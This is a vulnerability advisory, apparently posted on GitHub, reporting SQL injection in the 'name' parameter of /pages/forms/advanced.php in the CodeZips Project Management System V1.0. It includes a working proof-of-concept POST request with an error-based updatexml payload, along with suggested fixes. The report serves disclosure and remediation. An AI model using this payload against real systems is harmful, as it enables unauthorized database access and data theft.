


# CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- [[https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)

## Software Link

- [[https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```



## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
